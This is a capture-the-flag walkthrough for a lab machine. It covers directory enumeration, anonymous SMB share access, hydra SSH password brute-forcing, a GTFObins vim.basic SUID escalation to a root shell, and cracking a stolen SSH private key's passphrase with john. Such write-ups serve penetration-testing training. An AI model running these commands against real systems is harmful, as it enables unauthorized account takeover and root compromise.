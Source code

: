 ***

Author: dxWiz

Date: 19 Mar 2022

***

# Task 1 Web App Testing and Privilege Escalation

Use the following command to enumerate the url for hidden directory

	gobuster dir -u $IP -w /usr/share/wordlist/dirbuster/diretory-list-2.3-medium.txt

and we found /development/ and two files dev.txt and j.txt, checkout both of the files.

From out initial nmap scan, we know that smb is present in the target, to list the available share, use the following command

	smbclient -L //$IP

then the next steps is to try connecting to the shared folder with the name of Anonymous

	smbclient //$IP/Anonymous -N

After that do and ***ls*** and ***get*** to download the file staff.txt. In the file there is a staff named Jan.

We will then use hydra to brute force jan password with the following command
	
	hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP

It is time to ssh into the target with the password obtained and we can start looking for any misconfigured SUID file with the following command

	find / -type f -perm -u=s 2>/dev/null

	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/snapd/snap-confine
	/usr/lib/openssh/ssh-keysign
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/bin/vim.basic
	/usr/bin/pkexec
	/usr/bin/newgrp
	/usr/bin/chfn
	/usr/bin/sudo
	/usr/bin/chsh
	/usr/bin/newgidmap
	/usr/bin/at
	/usr/bin/gpasswd
	/usr/bin/newuidmap
	/usr/bin/passwd
	/bin/su
	/bin/ntfs-3g
	/bin/ping6
	/bin/umount
	/bin/fusermount
	/bin/mount
	/bin/ping


vim.basic looks interesting and by referencing to [GTFObins](https://gtfobins.github.io/) we can do a **PE** with the following command

	/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")' 


With the root access we can then go to kay home directory and read the pass.bak file to get the answer for the last question.

******

There is another way to gain root access without exploiting the misconfigured SUID file which is to get kay's ssh private key from her folder /home/kay/.ssh

We should do this before using the private key

	chmod 600 kay_id_rsa  

When we try to ssh with the following command 

	ssh -i kay_id_rsa kay@10.10.19.202
	Enter passphrase for key 'kay_id_rsa': 

It is asking for a passphrase, let's brute force the passphrase by first doing ssh2joh

	ssh2john kay_id_rsa > ssh2john.txt


It's time to brute force the passphrase of the key with john

	john --wordlist=/usr/share/wordlists/rockyou.txt ssh2john.txt
	
 and then ssh to the target and read the pass.bak file for answer.	
